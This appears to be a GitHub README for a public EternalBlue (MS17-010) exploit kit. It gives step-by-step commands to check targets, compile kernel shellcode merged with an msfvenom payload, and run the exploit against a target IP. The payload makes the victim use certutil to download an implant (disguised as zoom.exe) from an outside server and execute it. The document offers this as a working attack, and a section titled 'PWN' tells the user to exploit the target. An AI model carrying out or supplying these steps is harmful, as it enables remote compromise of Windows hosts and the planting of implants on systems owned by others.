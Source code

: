 # MS17-010 Exploit Code

This is a  public exploit code that generates valid shellcode for the eternal blue exploit that instructs the victim using Certutil tool to download an implant from an internet AWS server and execute it.

This version of the exploit is prepared in a way where you can exploit eternal blue WITHOUT metasploit, or reverse shells (no need to use ncat listenning)

This allows for this version of the MS17-010 exploit to be a bit more flexible, and also fully functional, as many exploits leave out the steps to compile the kernel shellcode that usually comes with it.

Included is also an enternal blue checker script that allows you to test if your target is potentially vulnerable to MS17-010

run `python eternal_checker.py <TARGET-IP>`


# Requirements
Core exploit code requires impacket and the `mysmb.py` library (included with the repo). To install any requirements simply use pip on the `requirements.txt` file. It's always recommended you use a virtual environment like `venv` when installing python dependencies, but use whatever you like.

Additionally, the helper scripts below require the Metasploit Framework to be installed. At minimum you will need `msfvenom` for the `shell_prep.sh` but stageless command shells can be caught like any normal command shell without the use of Metasploit's multi/handler. Otherwise, simply install the metasploit framework and insure it is in your path.

#### IMPORTANT SUPPORT INFO:
Keep in mind `python2` is *not* officially supported anymore. The original exploit code that is provided was initially built for python2, going forward any errors discovered will be adjusted for insuring the code works with python3 instead of python2. Instructions below assume python/pip are `python3` by default, so if you are using `python2` update based on your own paths when necessary and remember, it is *NOT* officially supported by this repo.
## Python2
`pip2.7 install -r requirements.txt`

## Python3
`pip install -r requirements.txt`

## TODO:
- [x] Validate python3 compatibility
- [ ] Testing with non-msfvenom shellcode

## VIDEO TUTORIALS:
- https://www.youtube.com/watch?v=p9OnxS1oDc0
- https://youtu.be/2FwqryKUoX8


## USAGE:
Navigate to the `shellcode` directory in the repo:

run ./shell_prep.sh

OUTPUT:
```
                 _.-;;-._
          '-..-'|   ||   |
          '-..-'|_.-;;-._|
          '-..-'|   ||   |
          '-..-'|_.-''-._|   
Eternal Blue Windows Shellcode Compiler

Let's compile the Shellcode

Compiling x64 kernel shellcode
'Compiling x86 kernel shellcode'
kernel shellcode compiled
Generating payload to download and execute zoom.exe using certutil...
Running the 'init' command for the database:
Existing database found, attempting to start it
Starting database at /home/nicolas/.msf4/db...pg_ctl: another server might be running; trying to start server anyway
server starting
success
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 364 bytes
Saved as: sc_x64_msf.bin
Payload for x64 generated.
MERGING KERNEL SHELLCODE WITH MSFVENOM-GENERATED PAYLOAD!
Shellcode merged successfully.
DONE
```

## PWN:
If you have completed the USAGE steps, now you're ready to PWN the target.

navigate back to Eternal-Blue-with-RCE directory

run: `python3 eternalblue_exploit10.py <TARGET-IP> shellcode/sc_x64.bin <Number of Groom Connections (optional)>`



